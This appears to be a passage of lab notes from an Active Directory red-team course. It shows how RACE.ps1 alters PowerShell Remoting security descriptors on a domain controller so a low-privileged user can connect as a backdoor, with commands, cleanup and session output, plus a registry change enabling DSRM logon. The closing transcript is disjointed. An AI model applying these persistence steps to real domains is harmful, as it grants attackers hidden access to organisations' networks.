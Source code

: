 #### Tags:

<pre>#!Windows #!AD #!PowerShell #!Mimikatz #!DSRM</pre>

<br/><br/>

* Security Descriptors - PowerShell Remoting (RACE)
	* Overview
		* It is possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users
		* Administrative privileges are required for this
		* It, of course, works as a very useful and impactful backdoor mechanism
	* Overview
		* Security Descriptor Definition Language defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and SACL
			  - `ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid`
		* ACE for built-in administrators for WMI namespaces
			  - `A;CI;CCDCLCSWRPWPRCWD;;;SID`
		* Reference: https://msdn.microsoft.com/en-us/library/windows/desktop/aa374928(v=vs.85).aspx
		* Replacing the SID value of the built-in administrators ACE string with something like the SID of a regular user (studentadmin) then it will have control over that namespace
	* Requirements
		  - `RACE.ps1`
* Make sure you don't already have the privileges:
  * `Enter-PSSession -ComputerName dcorp-dc`
* `. .\RACE.ps1`
* On local machine for student1
  * `Set-RemotePSRemoting -SamAccountName student1 -Verbose`
* On remote machine for student1 without credentials
  * `Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose`
* On remote machine for student1 with credentials
  * `Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose -Credential Administrator`
  * If you receive an "I/O operation has been aborted" error this should still work just fine.
  * We can now create a session on the DC with our low privileged user, with the prviliges our user already has. Not DA equivalent.

#### Cleanup (PowerShell - RACE)

* On remote machine, remove the permissions
  * `Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove`

	* Examples

```
PS C:\AD\Tools> whoami;hostname
dcorp\student503
dcorp-std503

PS C:\AD\Tools> . .\RACE.ps1

PS C:\AD\Tools> Enter-PSSession dcorp-dc
Enter-PSSession : Connecting to remote server dcorp-dc failed with the following error message : Access is denied. For more information, see the about_Remote_Troubleshooting Help topic.
At line:1 char:1
+ Enter-PSSession dcorp-dc
+ ~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: (dcorp-dc:String) [Enter-PSSession], PSRemotingTransportException
    + FullyQualifiedErrorId : CreateRemoteRunspaceFailed

PS C:\AD\Tools> Set-RemotePSRemoting -SamAccountName student503 -Verbose
VERBOSE: Existing ACL for PSRemoting is O:NSG:BAD:P(A;;GA;;;BA)(A;;GA;;;IU)(A;;GA;;;RM)S:P(AU;FA;GA;;;WD)(AU;SA;GXGW;;;WD)
VERBOSE: Updating ACL for PSRemoting.
```

[dcorp-dc]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
[dcorp-std503]: PS C:\Users\student503\Documents> exit
[dcorp-dc]: PS C:\Users\student503\Documents> whoami;hostname
[dcorp-dc]: PS C:\Users\student503\Documents> ls c:\
[dcorp-dc]: PS C:\Users\student503\Documents>
[dcorp-dc]: PS C:\Users\student503\Documents> ls C:\Users\Administrator\
[dcorp-dc]: PS C:\Users\student503\Documents> exit